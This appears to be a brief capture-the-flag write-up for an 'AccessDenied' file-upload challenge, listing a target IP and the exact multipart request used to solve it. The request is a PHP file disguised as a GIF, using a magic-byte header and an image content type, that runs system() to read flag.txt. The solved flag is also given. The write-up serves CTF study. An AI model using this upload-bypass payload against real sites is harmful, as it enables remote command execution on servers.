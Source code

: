 # Safe Upload  
    Everything can be uploaded safely to uploads/.
    URL: http://35.202.229.119/  
   
payloads: 


          ------WebKitFormBoundary657mm1QhBn6WyK8g  
          Content-Disposition: form-data; name="uploaded_file"; filename="29.php"  
          Content-Type: image/gif
          
          GIF89a;
          <?
          system("cd ../../../../..; strings flag.txt");

          #backups cache lib local lock log mail opt run spool tmp www
          ?>

          ------WebKitFormBoundary657mm1QhBn6WyK8g--
          
 flag: accessdenied{php_bu7_n07_php_f1l3_74a148ef}


